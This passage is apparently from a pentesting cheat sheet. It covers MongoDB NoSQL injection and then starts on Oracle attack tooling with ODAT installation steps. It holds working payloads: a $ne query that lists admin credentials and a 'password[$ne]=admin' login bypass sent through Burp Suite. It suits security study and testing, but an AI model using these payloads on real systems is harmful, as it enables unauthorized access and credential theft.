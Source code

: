 **Interaction with mongodb**

Lets say we logged in and wanted to list the admin credentials, we can use the below injection

```
db.users.findOne({username: "admin", password: {"$ne":"00"}})
```

Here we are telling mongo to list all documents \[records] in the table \[users] where the \[password] is not equal to \[00]. The output can look like below

```
{ "_id" : ObjectId("6183ef62925943030"), "id" : "1", "username" : "admin", "email" : "admin@domain.com", "password" : "idkidiot" }
```

**Bypassing login page**

Much like \[sql injection], we locate a login page where there is a login box asking for \[username] and \[password]. we use \[burp suite] to intercept a login request and to bypass the login page we need to make the password variable like below

```
username=admin&password[$ne]=admin
```

This will bypass the logic and make the output equals to \[true] and log you in as an admin.

## Oracle DB

### oracle db exploitation with odat (oracle database attacking tool)

#### Installing ODAT

* Downloading latest release

```
git clone https://github.com/quentinhardy/odat.git
```

* Then under the tool directory

```
cd odat/
git submodule init
git submodule update
```

* Installing python requirements

```
sudo apt-get install libaio1 python3-dev alien python3-pip

sudo apt-get install python3-scapy

sudo pip3 install colorlog termcolor Crypto passlib python-libnmap

sudo pip3 install argcomplete && sudo activate-global-python-argcomplete

sudo pip3 install pycryptodome

sudo pip3 install cx_Oracle

```

